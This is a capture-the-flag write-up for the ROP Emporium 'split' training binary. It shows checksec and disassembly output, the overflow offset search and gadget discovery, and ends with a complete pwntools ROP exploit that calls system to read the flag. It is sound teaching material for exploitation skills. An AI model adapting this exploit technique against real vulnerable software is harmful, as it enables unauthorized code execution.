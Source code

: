 First of all, use checksec to get some binary information

```shell
[marco@marco-pc Downloads]$ file split
split: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=8cbc19d1114b70bce2305f7ded9e7dd4d2e28069, not stripped
[marco@marco-pc Downloads]$ checksec --file=split
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   78 Symbols     No	0		3	split
```

The file is not stripped, so let's use objdump and gdb (with pwndbg) to get some information from symbol table
```shell
[marco@marco-pc Downloads]$ objdump -t split
...
00000000004007b5 l     F .text	0000000000000052              pwnme
...
0000000000400807 l     F .text	0000000000000011              usefulFunction
...
0000000000601060 g     O .data	000000000000001a              usefulString
```

There are some interesting stuff:
- pwnme, which is called from main, print some strings and get an input;
- usefulFunction perfom a system comand "/bin/ls"
- usefulString is "/bin/cat flag.txt"
```gdb
pwndbg> disassemble usefulFunction 
Dump of assembler code for function usefulFunction:
   0x0000000000400807 <+0>:	push   rbp
   0x0000000000400808 <+1>:	mov    rbp,rsp
   0x000000000040080b <+4>:	mov    edi,0x4008ff
   0x0000000000400810 <+9>:	call   0x4005e0 <system@plt>
   0x0000000000400815 <+14>:	nop
   0x0000000000400816 <+15>:	pop    rbp
   0x0000000000400817 <+16>:	ret    
End of assembler dump.
pwndbg> x/s 0x4008ff
0x4008ff:	"/bin/ls"
pwndbg> x/s 0x0000000000601060
0x601060 <usefulString>:	"/bin/cat flag.txt"
```

With a buffer overflow we can control the EIP. Jumping at system@plt with usefulString as parameter, we can read the flag.
Let's find out how many bytes we need to fill until EIP
```gdb
pwndbg> cyclic 50
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama

...

split by ROP Emporium
64bits

Contriving a reason to ask user for data...
> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama

Program received signal SIGSEGV, Segmentation fault.

...

RBP  0x6161616a61616169 ('iaaajaaa')

...

pwndbg> cyclic -l 'iaaa'
32
```

Last thing we need is a *`pop rdi; ret`* gadget to pass the string as argument

```shell
[marco@marco-pc Downloads]$ ROPgadget --binary /home/marco/Downloads/split > /home/marco/Downloads/gadget
[marco@marco-pc Downloads]$ cat /home/marco/Downloads/gadget | grep "pop rdi"
0x0000000000400883 : pop rdi ; ret
```

Final exploit:
NOTE: Remember to add 8 at 32 ( 32 buffer + 8 RBP ).
```python
from pwn import *
 
system_addr = 0x4005e0
string_addr = 0x0000000000601060
pop_rdi = 0x0000000000400883

expl = ("A"*40).encode()
expl += p64(pop_rdi)
expl += p64(string_addr)
expl += p64(system_addr)

p = process('./split')
p.recvuntil('>')
p.sendline(expl)
p.interactive()
```
